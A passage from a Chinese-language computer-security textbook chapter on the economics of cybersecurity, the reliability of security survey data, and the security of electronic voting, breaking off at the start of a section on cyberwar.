***

商业论证是为做某事提出的论据：投资新技术、培训人员、为产品增加安全功能，或维持现状。正如我们所见，由于许多管理论证都是用金钱来衡量的，计算机安全商业论证通常以经济术语来框架：节省的金额、采取行动的回报，或避免的成本。然而，往往很难将安全效果与更普遍的效果（如功能改进或资产访问改善）区分开来。而且，如果在采取某些预防性安全措施后，公司遭受的攻击比往年少了，证明该安全措施确实导致了攻击减少的证据往往很薄弱。这种区分问题使得更难回答“该投资能为我购买多少额外安全性？”这个问题。此外，这些论证还引出了如何在计算机安全领域得出可靠数字的问题。在下一节中，我们将分析定量数据的来源。

### 量化安全

网络安全威胁和风险以难以量化和估计而著称。一些漏洞（如缓冲区溢出）已被充分理解，我们可以审查系统以发现并修复它们。但其他漏洞了解较少或尚未显现。例如，如何预测黑客攻击网络的可能性？又如何知晓黑客将攻陷资产的确切价值？即使对于已发生的事件（如大规模病毒攻击），损失估算也差异巨大，那么我们如何能指望估算出尚未发生事件的成本？

不幸的是，量化和估计正是安全官员为证明安全支出合理性必须做的事情。每个安全官员都能描述一个损失惨重的最坏情况。但这类论证的影响力往往会递减：在管理层花费资金应对一个并未发生的潜在严重威胁后（或许是被对策阻止了，或许并没有），公司往往不愿再次花费资金来应对另一个潜在的严重威胁。

Lawrence Gordon 和 Martin Loeb [GOR02] 认为，对于给定的潜在损失，公司不一定应将其投资额与对任何资源的潜在影响相匹配。由于极其脆弱的信息保护成本也可能极高，公司最好将保护重点放在漏洞较低的信息上。

Gordon 和 Loeb 提出的模型表明，为了最大化保护信息投资的预期收益，公司应仅花费预期安全漏洞损失的一小部分。花费 100 万美元来防范可能性较低的 100 万美元损失，不如花费 1 万美元来防范极可能发生的 10 万美元漏洞损失更为合适。

#### 网络安全的经济影响

理解网络安全问题（预防、检测、缓解和恢复）的经济影响，需要支持良好决策的经济关系模型。然而，现实的模型必须基于源自网络安全投资现实和实际攻击后果的数据。在本节中，我们将描述所需数据的性质、建模者和决策者可用的实际数据，以及理想与现实之间的差距。

对于任何组织而言，理解网络安全威胁的性质至少需要了解以下要素：

* 需要保护的资产数量和类型
* 系统中存在的漏洞数量和类型
* 系统可能面临的威胁数量和类型

同样，理解网络攻击的现实也需要了解可能发生且确实发生的攻击数量和类型，以及将系统恢复到攻击前状态并采取行动防止未来攻击所涉及的成本。

可能的攻击类型以及系统对潜在网络攻击的脆弱性已相当清楚。然而，此类攻击更大的直接和间接后果在很大程度上仍未知。我们可能知道某系统已减慢或停止运行若干天，但往往无法很好地预判其连锁反应，因为其他系统无法再依赖该系统获取信息或进行处理。例如，对银行的攻击可能对旅游和信贷行业产生短期和长期影响，进而影响粮食供应。这种理解的缺失在互联计算机中会产生后果。

### 为安全行动提供依据的数据

社会对信息技术的依赖引发了人们对网络安全保护信息资产能力的关注。然而，我们缺乏高质量的描述性数据。

在以下几个层面，需要数据来支持网络安全决策：

* **国家和全球数据**通过帮助用户评估行业部门在其国家经济中的相互作用以及网络安全如何影响整体经济，来解决国家和国际层面的关切。这些数据有助于我们理解信息基础设施的损害如何在国家和全球经济的其他方面产生涟漪效应[¹]。

[¹]: 涟漪效应是指一连串级联事件，即一个事件触发其他几个事件，后者又进一步引发更多事件。

* **企业数据**使我们能够考察企业如何应用安全技术预防攻击并应对安全漏洞的影响。特别是，这些数据记录了企业如何在安全成本与其他经济需求之间取得平衡的信息。
* **技术数据**描述针对核心基础设施技术的威胁，使建模者能够制定一组成本最低的响应方案。

如果我们考察的是劳动力成本、原材料或成品成本，我们将拥有优质的数据可供利用。这些概念更容易量化和衡量，政府协助收集数据，经济学家也知道去哪里获取它们。这些统计数据对经济学家如此有价值的原因在于它们具有可比性。两位经济学家可以研究同一情况，得出相似的结论；或者如果结论不同，可以研究其论据背后的数据模型，以确定一个模型与另一个模型考虑因素的不同之处。

支持经济决策的数据必须具有以下特征：

* **准确性**。当报告值等于或可接受地接近实际值时，数据即为准确。例如，如果一家公司报告每月经历 100 次入侵尝试，则实际入侵尝试次数应等于或非常接近 100。
* **一致性**。一致性报告要求所有报告组织使用相同的计数规则，且在相同条件下收集数据。例如，计数规则应明确“入侵”的含义，以及单个恶意行为者的多次入侵尝试应按每个行为者报告一次，还是每次尝试都报告。同样，如果一个系统由 50 台计算机组成，且同一行为者以相同方式同时尝试入侵，计数规则应指明入侵计为一次还是 50 次。
* **及时性**。报告数据应足够新以反映现有情况。一些调查表明攻击性质随时间变化。例如，赛门铁克的定期威胁报告[[SYM06]](#bib01.html#bib_604)在 2006 年指出，其调查公司的攻击行为已从恶作剧式黑客攻击转变为严重犯罪行为。但到 2014 年，报告指出，“网络犯罪分子释放了历史上破坏性最大的一系列网络攻击——开启了‘超级泄露’时代。”[[SYM14]](#bib01.html#bib_606) 因此，依赖旧数据可能导致安全人员在解决昨天的问题。
* **可靠性**。可靠的数据来自可信来源，且对术语有共同理解。好的数据源始终如一地定义术语，使某一年收集的数据可与其他年份收集的数据相比较。

**信息安全漏洞调查**（ISBS）是关于网络安全事件和实践的特别丰富的信息源，并为获取网络安全信息提供了良好模型[[BIS14]](#bib01.html#bib_74)。这是英国贸易工业部与普华永道的合作项目，每两年对英国大大小小的企业进行一次调查。参与者随机抽样，接受结构化电话访谈。此外，普华永道对少数参与者进行深度访谈以核实常规访谈结果。

调查结果分四大类报告：对信息技术的依赖、对网络安全的重视程度、安全事件趋势、以及网络安全支出和意识。总体而言，信息技术对英国企业至关重要，因此计算机安全变得越来越重要。根据 2014 年调查结果，

* 安全漏洞数量较 2014 年略有下降。81% 的大公司和 60% 的小企业报告发生过漏洞。
* 但漏洞造成的损失更大：大组织为 60 万至 115 万英镑，小企业为 6.5 万至 11.5 万英镑。
* 大多数攻击来自组织外部，由恶意软件实施。
* 近十分之一的受访者因最严重的漏洞而改变了安全行为，即使是最节俭的受访者，用于安全的 IT 预算比例也在增加。
* 70% 的受访者未透露其最严重攻击的性质。因此调查数字仅代表真实情况的一小部分。

### 数据具有代表性吗？

侧边栏 13-2 列出了组织常用于支持其网络安全经济决策的一些数据源。对于每一个来源，重要的是要问：这些数据有多具代表性？Shari Lawrence Pfleeger 等人[[PFL06]](#bib01.html#bib_480)评估了现有数据，这些数据总体描绘了安全形势好坏参半的图景。

***

#### 侧边栏 13-2 安全数据来源示例

除内部生成的数据外，还有许多地方可查找企业、国家或国际安全数据。以下是一些示例：

* **澳大利亚网络犯罪与安全调查**：这份年度报告由澳大利亚政府编制，调查了 135 家合作企业。可在 [`apo.org.au/research/cyber-crime-and-security-survey-report-2013`](http://apo.org.au/research/cyber-crime-and-security-survey-report-2013) 获取。2012 年建立了基线，后续报告描述了相对于基线的变化。示例发现：“大多数事件形式为定向邮件，其次是病毒或蠕虫感染以及特洛伊木马或 Rootkit 恶意软件……受访者认为网络安全事件是针对其组织的，而非随机或无差别的。”
* **德勤技术、媒体和电信全球安全研究**：该报告调查了德勤技术、媒体和电信业务涵盖的 135 家组织的高管。可在 [`www.deloitte.com/assets/Dcom-Australia/Local%20Assets/Documents/Services/Risk%20services/Business%20process%20improvement/Deloitte_2013_GTMT_Security_Study_Report_04_March_2013.pdf`](http://www.deloitte.com/assets/Dcom-Australia/Local%20Assets/Documents/Services/Risk%20services/Business%20process%20improvement/Deloitte_2013_GTMT_Security_Study_Report_04_March_2013.pdf) 获取。调查发现示例：2012 年，合规性是改善网络安全的主要驱动力。但 2013 年，合规性甚至未进入前十名：安全战略和路线图位居榜首。这一变化表明“信息安全是其业务的基础，而不再仅仅是一个合规问题。”
* **安永全球信息安全调查**：该调查涉及来自全球 1900 家安永客户组织的数据，并辅以对高管的深度访谈以及二手研究，以“提供深度和背景”支撑其调查结果。可在 [`www.ey.com/Publication/vwLUAssets/EY_-_2013_Global_Information_Security_Survey/$FILE/EY-GISS-Under-cyber-attack.pdf`](http://www.ey.com/Publication/vwLUAssets/EY_-_2013_Global_Information_Security_Survey/$FILE/EY-GISS-Under-cyber-attack.pdf) 获取。调查发现示例：2012 年报告中，没有任何首席安全官向公司首席执行官汇报。但在 2013 年报告中，有 10% 向 CEO 汇报。这一变化表明企业现在认识到安全对公司利润至关重要。

这些调查为组织如何应对安全形势提供了一些洞见。

***

#### 攻击类型的分理

可以理解的是，这些调查衡量的指标各不相同。人们本希望能从多个调查中提取相似的数据项，但遗憾的是，这种情况并不常见。

例如，从 2003 年到 2004 年，澳大利亚计算机犯罪与安全调查报告称各类攻击均有所下降，但同一时期，德勤的一项调查发现违规率连续数年保持不变。这种差异可能源于被调查人群的不同：不同的国家、行业以及对安全事务的成熟度不同。

#### 受访者类型

这些调查大多是便利调查，意味着受访者是自我选择的，并不能形成更大总体的代表性样本。对于便利调查，通常很难或不可能确定结果代表哪个总体，这使得难以推广调查结果。

例如，我们如何判断调查受访者是否代表更广泛的安全从业者或用户群体？同样，如果在某项调查中，500 名受访者报告经历过攻击，这说明了什么？如果这 500 名受访者代表完成调查的所有人的 73%，这是否意味着 73% 的公司未来会遭遇攻击？还是说，由于填写问卷是自愿的，我们只能得出结论：遭受攻击的这 500 个站点的受访者比可能未遭受攻击的其他成千上万的人更有可能做出回应？

如果操作得当，好的调查会从总体中抽样，这样不仅可以将结果推广到更大的群体，而且可以逐年比较结果（因为样本代表同一总体）。

***

**好的调查从定义明确的总体中抽样，以便结果可以逐年比较。**

***

#### 类别的可比性

在定义、跟踪和报告安全事件及攻击方面没有标准。例如，调查征集的信息涉及

* “电子攻击”（澳大利亚计算机犯罪与安全调查）
* “安全事件”、“意外安全事件”、“恶意安全事件”和“严重安全事件”（信息安全违规调查）
* “任何形式的安全违规”（德勤全球安全调查）
* “导致关键业务系统意外或非计划中断的事件”（安永全球信息安全调查）。

确实，很难找到两个结果严格可比的调查。不仅数据的表征方式不同，而且许多问题的答案基于观点、解释或认知，而非对可靠数据的一致捕获和分析。

***

**好的调查衡量一致的属性，以便结果可比。**

***

#### 攻击来源


即使是攻击来源也存在问题。最近的一项澳大利亚调查指出，内部攻击率保持不变，而与此同时德勤调查表明，在其金融机构人群中，该比率正在上升。然而，不同调查的结果往往存在一些趋同性。病毒、特洛伊木马、蠕虫和恶意代码构成持续且严重的威胁，大多数行业领域都担心内部攻击和访问滥用。

然而，企业可能无法确定攻击的具体原因。是一段恶意代码？哪一种？来自哪里？是内部人员所为吗？是恶意的？还是意外的？即使使用定义明确的研究术语，一些公司也可能无法按适当类别提供数据。在这种情况下，有人留空问题，有人选择他们认为最接近的答案，还有人猜测。无法收集准确数据限制了某些调查的有效性。

### 财务影响

许多调查既获取影响信息，也获取原因信息，在同一时期内，影响方面也存在类似的差异。这些差异可能源于检测和衡量安全违规的直接及间接影响的困难。且没有公认的损失定义，也没有衡量损失的标准方法。

但在问题的性质上存在一些共识。许多调查表明，正式的安全策略和事件响应计划很重要。缺乏教育和培训似乎是改进的主要障碍。总体而言，糟糕的“安全文化”（就安全问题和策略的认知与理解而言）被报告为一个问题。然而，缺乏定量证据支持这些观点。

因此，在许多方面，这些调查告诉我们的更多是我们不知道什么，而不是我们知道什么。许多组织不知道他们在安全防护、预防和缓解上投入了多少。他们没有明确的策略来做出安全投资决策或评估这些决策的有效性。良好决策所需的输入——如攻击率和严重程度、损害和恢复成本、各类安全措施的成本——都无法准确获知。

***

**定量决策所需的数据往往缺乏。**

***

我们只能得出结论：这些调查仅对轶事证据有用。因此，如果安全官员引用一项调查，指出 62% 的受访者报告了安全事件，平均损失 12,000 英镑，管理层理应询问：这些数字对其他国家是否有效？什么构成事件？其组织是否容易受到这些类型的危害？

便利调查是一个良好的开端，但要进行严肃且有用的分析，我们需要在一段时间内对同一总体实施统计上有效的调查。只有这样，我们才能得出有意义的度量指标和趋势。调查需要使用通用术语和通用的效果衡量方式，以便我们能够对过去和可能发生的损失得出结论。理想情况下，可比较的调查将在不同国家实施，以便我们记录地域差异。没有这些可靠的数据，网络安全的经济建模就很困难。

### 人的因素

公司和组织投资网络安全，是因为他们想要提高产品的安全性或保护其信息基础设施。以三种方式，了解项目和团队的人为方面可以使这些投资决策更有效。首先，了解人际互动如何影响可信度和信任，使决策者能够通过增强这些互动的方式进行投资。其次，网络安全决策始终涉及从影响和风险的角度量化并对比可能的安全故障。行为科学家发现，根据风险如何被沟通和感知，行为和选择会出现显著差异。同样，人们做出的可信度决策并不总是理性的，且常受近因效应影响。支持网络安全投资决策的工具可以考虑这种变异性，并以用户能更可预测地理解的方式传达选择。第三，组织文化可以成为公司如何使用安全信息、如何做出安全实践选择以及如何看待声望和信任等位置性商品的关键预测指标。这些行动中的每一个反过来又会影响公司的可信度，以及其产品的安全性与消费者感知相匹配的可能性。

行为、文化和组织问题的影响也超出了组织范围。因为一家公司的安全对同一业务领域或供应链上的其他企业有影响，该领域或链条上同事之间的人际互动会影响他们对信任和责任的期望。公司可以达成协议，在链条的每个环节投入足够资源，以最小化每个贡献者的成本，确保整个领域或供应链的安全。

#### 当前研究与未来方向

2001 年，剑桥大学的 Ross Anderson 阐述了为什么信息安全很难 [AND01]。他还创办了一系列信息安全经济学研讨会（参见 `http://www.cl.cam.ac.uk/~rja14/econsec.html` 可获取各研讨会论文集的链接）。正如安全关注机密性、完整性和可用性一样，网络安全经济学研究聚焦于这三个特性的经济价值及其含义。即使经过近二十年的研究，网络安全经济学仍是一门新兴学科，充满了开放性问题。其新颖性和多学科性意味着，与任何研究领域一样，信息分散，且我们还有许多未知领域。

当前网络安全经济学研究聚焦于信息技术与市场之间的互动。当我们购买或使用软件时，我们以多种方式参与市场。首先，我们为软件支付的价格可能取决于我们对它的信任程度；一些消费者对免费软件的信任远低于他们为之支付高价的品牌专有产品。其次，一些公司利用软件的“柔性”，根据涉及个人信息的权衡来收取更高或更低的费用。第三，可以操纵市场以鼓励供应商减少其产品中的缺陷数量。在本节中，我们总结了当今研究正在解决的问题类型，并描述了几个尚待解答的开放性问题。

##### 经济学与隐私

Andrew Odlyzko [ODL03] 仔细研究了经济学与隐私如何互动，特别是随着差别定价的使用增加。我们已经看到，随着存储和分析数据的成本持续下降，企业轻松获取客户行为数据。差别定价等做法鼓励客户以较低价格换取提供个人信息。我们许多人在超市、办公用品店、书店等处都有“会员卡”，当我们允许供应商记录我们的购买行为时，这些卡会给我们提供特别优惠或折扣。企业还可以监控我们在网络上导航的地点和方式，以及我们与谁互动。差别定价也会约束和改变我们的行为，例如我们在网上购买机票或火车票以换取比电话或亲自购买更低的票价。

经济学家 Alessandro Acquisti 和 Hal Varian 分析了企业利用这种隐私/定价权衡获利的市场条件。例如，他们研究了根据与客户过往互动的数量和类型来定价的影响，详见第 9 章。他们发现，“如果消费者对后续购买的估值发生变化，也许是由于提供了个性化增值服务，卖方可能会发现根据购买历史制定价格是有利可图的。” [ACQ05] 许多研究人员对个人、商业和社会成本与收益之间的平衡感兴趣。Acquisti 在其网站上问道：“是否存在一个能满足各方利益的‘最佳平衡点’？” (`http://www.heinz.cmu.edu/~acquisti/economics-privacy.htm`)

##### 经济学与完整性

许多研究人员正在研究共享漏洞信息所涉及的经济权衡。Eric Rescorla [RES04] 解释说，由于大型软件产品中存在大量缺陷，移除单个缺陷并无实质性区别；恶意行为者只会找到另一个缺陷加以利用。他建议在缺陷修补前披露其存在，这反而会首先鼓励恶意行为。然而，Ashish Arora 和 Rahul Telang [ARO05] 主张披露。他们的模型表明，如果不披露，软件供应商就没有动力去发现和修补问题。尽管披露增加了攻击次数，但供应商会对每次披露做出快速响应，且报告的缺陷数量会随时间减少。有趣的是，他们对真实数据的分析显示，开源项目修复问题的速度比专有软件供应商更快，大公司修复问题的速度比小公司更快。

##### 经济学与监管

对于认为市场最终会自行解决问题的人，和希望政府实体介入并以某种方式监管的人之间，总是存在激烈的争论。在安全领域，这些争论涉及垃圾邮件、数字版权管理和关键信息基础设施保护等问题。许多研究人员正在研究网络市场的各个方面，以确定是否需要监管。

### 13.3 电子投票

我们再次退后一步，审视一个横跨我们生活中多个领域的广泛问题。我们每个人都是公民，在我们大多数的国家里，我们通过投票来表达观点，并选出在城镇、州和国家层面代表我们的人。传统上，投票是通过纸质选票进行的：我们在纸上标记选择，然后将纸张交给负责统计选票的人。

但即使在纸质选票上，安全问题也至关重要。一位优秀的安全工程师在研究什么构成良好的投票时，可以指出选举过程中的 C-I-A 需求：

- **机密性**。我们希望能够在不向他人透露自己投票选择的情况下投出选票。

- **完整性**。我们希望选票代表我们的实际选择，且在我们标记选票到选票被计数这段时间内不被篡改。我们还希望每一张被计数的选票都反映一位合法选民的单一投票。也就是说，我们希望能够确保我们的选票是真实的，并且报告的总数准确反映了投出的选票。

- **可用性**。通常，投票是在批准的选举前期间或指定的选举日进行的，因此我们必须能在允许投票的时候进行投票。如果我们错过了投票机会，或者在指定期间投票被暂停，我们就失去了在该次选举中投票的机会。

通过对纸质选票的严格控制，我们可以在很大程度上满足这些要求，但对于人口众多的情况，此类系统的效率较低。此外，由于差旅成本和小规模运作的低效率，在偏远地区提供纸质投票机会的成本可能非常高昂。出于这些原因，许多国家和地区已转向计算机化投票系统，以在不牺牲隐私或准确性的前提下提高可用性和效率。在本节中，我们将首先考虑电子投票的定义，然后探讨确保此类系统真正公平、保密、准确和可用所涉及的关键问题。请注意，我们也在第 9 章中提到了电子投票的隐私方面。

---

**纸质选举和电子选举都有弱点。选择哪种形式需要评估两者的优缺点。**

---

#### 什么是电子投票？

电子投票（有时称为 e-voting）指部分或完全自动化的选举过程。换句话说，提供电子手段用于投票、计票，或两者兼有。因此，根据隐含含义的不同，您可能会看到该短语以不同方式使用。在本书中，我们用该短语指代投票过程从端到端的完全自动化。但请注意，其他人可能关注投票过程中的特定活动（维护登记选民名单或将投票从投票亭传输到中央汇总设施）的电子化。特别是，互联网投票颇具大众吸引力，因此一些人将其视为电子投票。我们认识到这些个别努力的重要性，但希望探讨完整的情况。

##### 投票

电子投票可以通过多种方式进行，包括穿孔卡、电话、光学字符阅读器、安全网页，或支持通过触摸屏或其他输入技术捕获选票的专用设备。例如，英国首相托尼·布莱尔于 2002 年 7 月宣布，在 2006 年英国大选中，公民将通过四种方式中的任意一种投票：从工作或家庭地点在线（通过互联网）投票、邮寄投票、按键式电话投票，或通过在线终端在投票站投票。随后所有选票将进行电子计数。同样，在巴西，投票是强制性的，不投票会被罚款，每个辖区都有专用的投票机，外观类似于银行自动取款机的变体。巴西人可以在全国任何地方投票，通过与每位候选人关联的唯一号码来指定所选人选。

---

**电子投票机可以让投票变得更容易，这可能会提高投票率。**

---

专用投票设备有时被称为直接记录电子投票系统，或 DRE；它们通过触摸屏、电子笔或其他输入设备自动捕获选民的选择。也存在混合技术。例如，一台机器可能以电子方式记录选票，但随后生成一份选民可以检查和验证的纸质副本。然后该纸质选票将被人工计数或电子处理。

投票行为是支持投票的更大过程的一部分。该过程必须包括建立和维护合格选民名单，确保每个人都知道何时何地投票，确认每位自称合格选民的身份，记录谁已投票，支持缺席投票（即无法前往投票地点人员的选票），并协助前往错误投票站或需要其他帮助的选民。

##### 传输和计数选票

选举过程中有许多重要步骤，始于个人投票之前，终于确定选举获胜者。选民必须登记或获得授权，候选人必须获批，选票必须生成，选举参数（时间和地点）必须公布，选举工作人员必须接受培训。投票结束后，必须在各个投票站点票，传输到选区或选举总部，然后在那里合并汇总。最后，必须向官员报告结果，由他们核实计数是否正确，以及过程是否公平诚实。

这些步骤中的每一个都有明显的安全性和隐私影响。例如，在某些政治文化中，可能希望对投票者的身份保密，以防止对那些没有投票给有势力候选人的民众进行报复。确实，大多数公民希望匿名投票。虽然使用纸质选票很容易实现匿名性（忽略指纹追踪或秘密标记选票的可能性），使用光学阅读机等简单机器也相当容易实现（假设使用协议排除了将人们的投票顺序与机器的投票日志关联起来），但使用计算机有时更难维护匿名性。

要理解原因，请考虑完整性目标：每一票都被计数，且只有授权人员可以投票。为了满足每一票都被计数的目标，我们理想情况下需要一种方法让选民能够核实其选票已被计数，即能从已计数的选票池中识别出自己的那张，这意味着选民与选票之间存在某种关联。同样，为确保只有授权人员投票，我们需要能够将每张选票追溯到投出该票的唯一授权选民。然而，正如你可能已经得出的结论，这些关联也可能揭示谁投了哪张票。

###### 什么是公平选举？

我们经常听到对“自由公正选举”的呼吁。但究竟什么是公平选举？根据 Shamos [[SHA93]](#bib01.html#bib_566) 的说法，公平选举是指满足以下所有条件的选举：

* 每位选民的选择必须保密。
* 每位选民只能投票一次，且只能为允许的职位投票。
* 投票系统必须防篡改，且必须防止选举官员允许其被篡改。
* 所有选票必须准确报告。
* 投票系统在整个选举期间必须可用。
* 必须保留审计追踪以检测投票中的违规行为，但不得泄露任何个人的投票情况。

作为习惯于从威胁和漏洞角度思考的人（部分得益于阅读本书），你可能已经在想办法否定列表中的某些条目。这些条件在普通的纸质和机器选举中就很具挑战性；在基于计算机的选举中更难满足，特别是如果没有机制让选民核实记录的投票与投出的投票相同。正如我们上面指出的，投票隐私至关重要；在一些高压国家，投票给错误的候选人可能是致命的。

看看美国公共选举中支持候选人的惊人财务捐款数额，我们就会发现这些竞争的利害关系有多大。虽然我们希望相信这种支持的公正性，但巨额数字表明，攻击者有充足的动机试图操纵选举结果。如果一个团体为候选人的竞选捐赠了一大笔钱，而结果仍取决于选民，该团体会不会选择更有效地花这笔钱，资助一个能产生确定结果的攻击者？

公平选举很重要，因为公众对结果有效性的信心至关重要。因此，公平的选举过程必须包含验证投票收集准确性和投票报告准确性的机制。在设计不良的过程中，这两个要求可能是相互矛盾的。

***

**就方法-机会-动机而言，影响选举结果为这三者都提供了可能性。**

***

###### 关键问题是什么？

强制执行投票过程安全性的一种方法是使用协议，并由所有相关人员严格遵循。DeMillo 和 Merritt [[DEM83]](#bib01.html#bib_147) 是最早设计计算机化投票协议的人之一。此后不久，Hoffman 调查了可能的电子投票方案的安全性和可靠性 [[HOF87]](#bib01.html#bib_270)，并推荐了在投票站使用计算机投票的方法 [[HOF00]](#bib01.html#bib_269)。

确实，许多研究人员怀疑电子投票是否永远值得信任。例如，Rubin 的分析 [[RUB00]](#bib01.html#bib_526) 得出结论：“鉴于主机当前的不安全状态以及互联网对操纵和拒绝服务攻击的脆弱性，任何涉及远程电子投票的重大公共选举都无法安全地进行。”

几项分析证实了这些担忧。例如，[[SCH04]](#bib01.html#bib_545) 详述了投票机的问题，Di Franco 等人 [[DIF04]](#bib01.html#bib_155) 对 2000 年美国总统大选的分析表明，每个选区仅改变两票就会导致完全不同的结果：戈尔而非布什当选。美国最近的几次大选中，有多场竞争的胜负差距远小于投出总票数的 1%。当选举优势微弱时，重新计票很常见，有时甚至是强制性的。选举官员需要足够的数据来核实和重新计票，但全电子系统可能缺乏让怀疑者信服的手段。在 Sidebar 13-3 中，我们将展示爱沙尼亚如何发展电子投票。

#### Sidebar 13-3 爱沙尼亚的互联网投票

爱沙尼亚拥有相对较高比例的互联网政府交互，因此他们尝试电子投票是很自然的。从 2001 年开始，他们制定计划允许电子投票作为一种选项。2005 年，他们举行了世界上第一次互联网投票，当时通过互联网投出的选票占总票数的 1.9%。这一比例稳步上升，到 2013 年达到 21%。

一个国际观察员团监督了 2013 年的选举。爱沙尼亚官员全力配合，向检查员提供了包括源代码和测试机器在内的整个过程。该团队的报告 [[HAL14]](#bib01.html#bib_254) 详述了投票系统监管不力和程序故障导致的弱点，这些弱点可能允许引入恶意软件，从而破坏整个选举或将一票替换为另一票。对这一彻底分析的积极解读是，它作为一个很好的例子，展示了其他政治实体可以从中学习的积极和消极做法。

***

2005 年，美国国家科学院计算机科学与电信委员会（CSTB）[NRC05]发布了其关于电子投票的研究报告。该报告提出了一些问题，这些问题必须在任何关于电子投票的深入辩论中得到解决。例如，CSTB 询问电子投票流程将如何保障选民登记和个别投票中的个人隐私。此外，该研究强调公众必须对该流程有信心；否则，公众将不信任结果。

Rubin [RUB02]、Schneier [SCH04] 和 Bennet [BEN04] 等人继续研究电子投票。而诸如侧边栏 13-4 所述的调查表明，我们距离拥有值得信赖的电子投票机还有很远的路要走^(3)。即使没有专用硬件的电子投票也会带来重大问题。例如，Rubin 指出，互联网投票已在多个国家使用（例如，自 1997 年起允许在轨道上的宇航员通过电子邮件投票），其显而易见的好处是：方便那些无法前往投票站的人投票。但它有一个相应的弱点：对于没有互联网接入或不习惯使用计算技术的人来说，无法使用。

3. 公平地说，非计算机化投票也有其缺陷。投票箱神秘失踪，有人被贿赂不去投票，还散布虚假通知建议更改选举日或投票地点。一些大城市选举的政治如此腐败，以至于“早投早投，常投常投”这句话被字面理解。腐败和诚实的人为错误都会影响所有选举的准确性——无论是否电子化。

***

#### Sidebar 13-4 加利福尼亚州的“自上而下”审查

从 1990 年代中期到 2000 年代中期的十年间，许多司法管辖区从基于纸张的投票流程迁移到某种形式的电子投票。但随着这一迁移，投票机及其配套流程中出现各种故障的报告层出不穷。因此，2007 年 5 月，加利福尼亚州州务卿下令对加利福尼亚州的电子投票流程进行“自上而下的审查”。由加州大学戴维斯分校的 Matt Bishop 和加州大学圣巴巴拉分校的 Richard Kemmerer 领导，团队从多个方面分析了电子投票：

- 他们对当时该州使用的四种投票机的所有源代码进行了安全评估：Diebold（现 Premier）选举系统、Hart InterCivic、Sequoia 投票系统和选举系统与软件公司。
- 对于每种类型的投票机，他们彻底审查了制造商提供的文档。
- 他们调查了每台机器满足无障碍需求的能力，包括提供多种外语版本的选票。
- 他们组建“红队”对每台机器和流程进行渗透测试。模拟选举日当天，团队试图识别可能允许篡改选票或导致结果出错的漏洞。


团队在每个系统中都发现了重大缺陷——这些缺陷可能被利用，利用者无需具备计算机安全专业知识，即可破坏选举结果。因此，州务卿取消了正在研究的每台机器的使用认证。

***

此外，正如你此时已充分了解的，互联网投票系统面临着纸质系统不可能遭受的攻击。例如，J. Alex Halderman 及其学生受邀审查华盛顿特区用于投缺席票的互联网投票系统，这对驻扎海外的人员（如现役军人）来说非常方便。在首次访问系统测试版后的 36 小时内，该团队便能完全攻破该系统：他们可以随意丢弃已投出的选票并伪造新选票，还能将任何选票与投票人的身份关联起来 [HAL10]。他们的攻击使用了我们在第 4 章中描述的经典脚本注入攻击的一个简单实例。

在本书中，我们经常鼓励你像攻击者一样思考。人们可能对电子投票流程发动哪些类型的攻击？

### 保密性

攻击者如何揭露某人的投票？考虑程序缺陷如何导致打印出两份记录的投票副本：一份由选民领取查看，另一份被攻击者秘密带走（并可能与隐藏摄像头拍摄的照片匹配）。另一种方式可能是社会工程学：冒充投票官员，在“出口访谈”中提问。正如我们所见，构建有效攻击并不总是需要花哨的技术。

### 篡改

攻击投票机的一种方式是闯入并篡改其运作。一旦进入，攻击者可以重置硬件或更改软件设置。2010 年 9 月，美国能源部阿贡国家实验室调查了如何破坏投票机上的防篡改封条。结果令人沮丧：在 11 分钟内，几乎所有 244 个封条都被“一个人、熟练掌握攻击技巧、独自作业、仅使用低技术手段”破解了。即使是更昂贵的封条表现也好不到哪里去。阿贡报告 [ARG10] 建议采取简单的对策，这些对策源于我们在本书中所做的：检查封条、像攻击者一样思考、并从尝试各种攻击中学习。

结果还能如何被篡改？2000 年美国总统大选让人想到一种方式：选票设计。有些选票比其他选票更容易理解，选票设计可能会诱导选民以为自己投了某一票，实际上却投了另一票。姓名或党派归属的位置会产生影响；例如，有些人倾向于投票给排在选票顶端的人，因此姓名位置有时会随机化以抵消这种影响。同样，像加利福尼亚这样的地方选票非常复杂，因为每次选举可能包含多个司法管辖区（例如地方政府、学区、水务区），以及选民提案、司法竞选等。一些研究人员建议简化选票可能解决此问题。

界面问题也可能以其他方式导致计票错误。一些投票机的界面要求选民在投票正式记录前验证其选择。在某些情况下，选民离开机器时未意识到还需要一步才能正式投出选票。在其他情况下，手指在触摸屏上滑动会导致机器崩溃并重启 [THO08]。

本书介绍的许多攻击都可针对篡改投票。例如，程序缺陷可能导致票数变更。第 4 章介绍了中间人攻击，此类攻击可拦截选票、篡改选票，并强制投票机记录与选民意愿不同的选票，同时向选民显示其认为正在被记录的选择图像。此外，视投票流程架构而定，分布式拒绝服务攻击可向互联网投票服务器发送大量虚假流量，甚至阻止宇航员访问投票应用程序。

### 确保准确性

#### 如何确保投票的准确性？

必须对投票过程进行端到端的审查，以确保选民的意图即为实际记录在选票中的内容。为此提供保障的一种机制是生成审计日志。在此机制下，部分或全部选票会被记录下来，随后接受检查，以确保从投票投出、记录到与其他选票汇总计数的整个过程中，未发生任何篡改。有时会使用打印版的结果，以便重构投票过程。事实上，一些研究人员认为，只有配合打印副本和选民验证，投票过程才能做到公平。

审计日志本身如何可能成为攻击目标？而在将选票传输至选举总部的过程中，如何保护投票隐私？

### 易用性

投票系统面向所有人使用，但我们知道年龄、身体状况、思维敏锐度、语言和阅读技能等因素会影响人们与技术交互的方式。一方面，计算机技术可改善无障碍访问，例如提供大字号选票或外语版选票。另一方面，易用性（或缺乏易用性）可能损害准确性，例如关键说明（“按[此处]投出此票”）以小字号显示，或程序在几秒钟后自动跳转至下一屏，即使选民尚未做出选择。你如何利用易用性特性改变选举结果？易用性如何促进或降低可用性？

### 成本与收益

我们为保护电子投票过程设计的许多技术都可能复杂且昂贵。保护选票和提供公平选举究竟需要投入多少才算足够？我们如何确定投资回报率，尤其是在少量选票就能对选举结果产生重大影响时？我们是否总能假设电子流程更高效？瑞士拥有约五百万合格选民，其投票过程同时使用纸质和电子选票，目前电子部分上限为选民总数的 20%。但瑞士选举结果通常在投票结束后六小时内即可公布。这种高效源于简单的选票设计和简单的选举（例如，选票上的候选人不多）。我们如何在技术风险与投票风险之间确定权衡取舍？

## 13.4 网络战

近年来，许多政府将关注点转向网络战的概念，提出了几个关键问题：

- 对网络基础设施的攻击何时可被视为战争行为？
- 网络空间是否有足够差异被视为战争的一个独立领域，还是说它与其他领域（如陆地、海洋或空中）大同小异？
- 有哪些不同的方式……” [GRO10]

